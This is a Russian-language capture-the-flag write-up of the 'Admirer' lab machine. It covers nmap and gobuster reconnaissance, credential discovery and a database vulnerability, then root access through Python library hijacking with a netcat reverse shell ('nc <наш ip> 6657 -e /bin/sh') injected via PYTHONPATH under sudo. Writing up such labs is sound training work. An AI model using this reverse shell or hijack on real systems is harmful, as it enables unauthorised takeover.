Дисклеймер.  
Все инструменты описанные в данной статье реальны, находятся в свободном доступе и используются специалистами по Информационной Безопасности для проведения тестирования на проникновение информационных систем компаний и предприятий. Автор статьи не занимается взломом и не поощряет подобных действий, все описанное ниже было выполнено на специально подготовленной для этого виртуальной машине.
[[nmap]]
```bash
 Nmap scan report for 10.10.10.187

 Host is up (0.12s latency).

 Not shown: 997 closed ports

 PORT STATE SERVICE VERSION

21/tcp open ftp vsftpd 3.0.3

22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)

| ssh-hostkey:
 | 2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)

 | 256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)

 |_ 256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)

 80/tcp open http Apache httpd 2.4.25 ((Debian))

 | http-robots.txt: 1 disallowed entry

 |_/admin-dir

 |_http-server-header: Apache/2.4.25 (Debian)

 |_http-title: Admirer

 Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Сразу рвемся на [[FTP]].  
нужен логин? Окей, не рвемся…  
[[gobuster]] на сайт, и ждем.

Спустя минут 20, мы ничего не получили? Окей, руками

**robots.txt**

нам нельзя в какую,то папку? Хехе, я так не думаю…

натравим gobuster на нее используя другой словарь…. на этот раз с частыми файлами.  
находим 2 интересных файла  
в том, числе и файл с паролями, вот теперь точно на [[FTP]]  
скачиваем все что имеем и начинаем изучать

в одном из файлов программист подключает базу данных  
видим логин пароль, узнаем ссылку на нее, идем туда  
пытаемся зайти используя все что уже нашли.

Ничего не подходит? хм… Окей, гугл…

находим уязвимость в местной СУБД… придется поднять свой [[mySQL]], ну ладно…

теперь можно сдампить местную базу….

находим логин и пароль от [[SSH]]

сдаем user.txt

```bash
sudo -l
```
есть некий скрипт  
изучим его исходники  
вызывается какой-то файл  
**backup.py  
**если процесс запущенный от рута запускает файл, значит и файл будет запущен от рута.

Напишем свой backup.py с блекджеком и шл.., ой не то…

нам нужно создать ту же функцию, чтобы не возникло ошибки и инъекция прошла успешно
```python
#!/usr/bin/python3
 from shutil import make_archive
src = '/var/www/html/'
 # old ftp directory, not used anymore
 #dst = '/srv/ftp/html'
dst = '/var/backups/html'
 make_archive(dst, 'gztar', src)
```

напишем свой make_archive
```python
 import os
 def make_archive(a, b, c):
 os.system('nc <наш ip> 6657 -e "/bin/sh"')
```

что-то вроде этого должно сработать

влезем в переменную среды, чтобы все вышло

```bash
 sudo PYTHONPATH=/tmp/fakeshutil /opt/scripts/admin_tasks.sh
```

иии, мы root